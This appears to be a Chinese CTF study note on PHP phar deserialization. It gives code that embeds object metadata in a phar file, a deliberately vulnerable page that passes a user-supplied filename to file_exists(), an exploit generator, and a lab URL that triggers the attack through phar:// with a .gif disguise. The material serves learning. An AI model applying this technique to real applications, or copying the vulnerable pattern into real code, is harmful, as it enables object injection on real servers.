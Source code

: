 # phar

会自动触发 setMetadata 内的值

## CreatePhar
```php
<?php
class TestObject{
}

$o = new TestObject();
$o -> data = 'h4ck3r';

$phar = new Phar("app.phar");
$phar -> startBuffering();
$phar -> setStub("<?php __HALT_COMPILER();?>");
$phar -> setMetadata($o);
$phar -> addFromString("test.txt","test");
$phar -> stopBuffering();
```
## Open phar
```php
<?php
class getflag{
    public $a;
    function __destruct() {
        echo 123;
    }
}

# file_get_contents('phar://app.phar');
file_get_contents('phar://app.phar/test.txt');
```

# Phar题目

1.php

```php
<?php
class TestObject{
    function __destruct(){
        echo $this->data;
    }
}
$filename = $_GET['filename'];
file_exists($filename);
?>
```

exp.php
```php
<?php

class TestObject
{
}

@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new TestObject();
$o->data = 'th1e';
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

生成phar后访问
http://192.168.127.130/a1.php?filename=phar://./phar.phar.gif/test.txt
